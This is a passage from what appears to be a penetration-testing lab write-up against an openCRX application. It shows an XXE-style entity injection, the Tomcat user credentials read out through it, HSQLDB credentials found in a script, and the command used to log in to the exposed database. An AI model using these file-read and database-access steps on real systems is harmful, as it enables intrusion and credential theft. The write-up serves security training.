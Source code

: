 ```xml
<lastName>hhhhhbreakpoint&wrapper;hhhhhbreakpoint</lastName>
<firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

We can thus obtain sensitive credentials in the `tomat-users.xml` file. 

```xml
<tomcat-users>  
<role rolename="OpenCrxAdministrator"/>
<role rolename="OpenCrxUser"/>
<role rolename="Guest"/>
<role rolename="OpenCrxRoot"/>
<role rolename="tomcat"/>
<role rolename="manager"/>
<user username="admin-Root" password="admin-Root" roles="OpenCrxRoot,manager"/>
<user username="tomcat" password="tomcat" roles="tomcat"/>
<user username="admin-Standard" password="admin-Standard" roles="OpenCrxAdministrator"/>  <user username="both" password="tomcat" roles="tomcat"/>
<user username="guest" password="guest" roles="OpenCrxUser,Guest"/>
</tomcat-users>
```

## HSQLDB

If we try to access the Tomcat Manager application, we find that the default configuration restricts access to localhost, making such a vector impossible. 

Instead, we can target the SQL database that the application references. Searching through the directories, we find several database-related files at `/home/student/crx/data/hsqldb`, which includes a file with credentials, `dbmanager.sh`, which contains the credentials `(sa, manager99)`. 

```bash
#!/bin/shexport 
JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64export 
PATH=/usr/lib/jvm/java-8-openjdk-amd64/jre/bin:$PATH
cd  /home/student/crx/data/hsqldb
java -cp ./hsqldb.jar org.hsqldb.util.DatabaseManagerSwing --url jdbc:hsqldb:hsql://127.0.0.1:9001/CRX --user sa --password manager99
```

HSQLDB servers rely on ACLs or network layer protections to restrict access beyond usernames and passwords. The file [`crx.properties`](http://crx.properties) defines if any ACLs are defined within HSQLDB. In this case, none are defined. Checking with nmap, the port 9001 is open and thus we can use the above command to login to the database after downloading [hsqldb.jar](https://sourceforge.net/projects/hsqldb/files/hsqldb/hsqldb_2_7/) from the documentation. This opens a new GUI window. 

While HSQLDB does not have file writes like MySQL, custom procedures can call and invoke Java code. (Source: [9001 - Pentesting HSQLDB | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/9001-pentesting-hsqldb))
